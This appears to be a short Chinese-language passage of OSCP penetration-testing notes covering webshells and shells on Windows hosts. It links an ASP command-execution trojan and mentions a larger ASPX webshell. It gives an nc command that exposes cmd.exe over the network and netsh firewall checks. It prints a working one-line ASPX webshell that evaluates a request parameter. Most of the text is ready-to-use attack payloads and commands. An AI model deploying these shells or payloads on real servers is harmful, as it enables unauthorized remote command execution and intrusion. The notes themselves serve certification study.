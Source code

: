 - 一个 ASP 的木马，用于执行系统命令：[aspcmd.asp](https://github.com/Jewel591/OSCP/blob/master/ASP-reverse-shell/aspcmd.asp)(或asp.cmd.aspx)

> 遇到的一个坑：`.asp` 无法运行，系统会报 500 错误，修改为`.aspx` 后绕过限制(~OSCP 10.11.1.13)

- 超强 webshell 大马-bigshell.aspx

# Windows 利用 nc 反弹 shell
```
nc -lvp 8888 -e c:\windows\system32\cmd.exe 
```
查看防火墙状态：
```
netsh firewall show state
```
```
netsh advfirewall firewall show rule name=all dir=in type=dynamic
```
# ASPX 一句话木马
```
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```
